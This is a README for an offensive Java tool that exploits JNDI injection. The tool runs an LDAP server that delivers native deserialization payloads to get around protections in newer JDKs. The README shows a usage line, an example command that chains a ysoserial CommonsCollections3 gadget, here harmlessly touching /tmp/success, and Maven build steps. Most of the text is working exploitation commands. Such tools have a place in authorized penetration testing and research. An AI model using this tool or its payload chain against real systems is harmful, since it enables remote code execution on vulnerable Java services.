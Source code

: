 # JNDI-Injection-LDAP-Deserialization

JNDI注入利用工具，LDAP+原生反序列化 方式绕过高版本JDK，需要配合ysoserial等序列化数据生成工具

## Usage
```bash
java -jar JNDI-Injection-LDAP-Deserialization-1.0-SNAPSHOT.jar LDAP服务端口 Base64编码的序列化数据
```



## Examples

```bash
java -jar JNDI-Injection-LDAP-Deserialization-1.0-SNAPSHOT.jar 1389 `java -jar  ~/Tools/ysoserial/target/ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections3 'touch /tmp/success' |base64`
```



## Building

Java 1.8 and Maven 3.x

```bash
mvn clean package -DskipTests
```

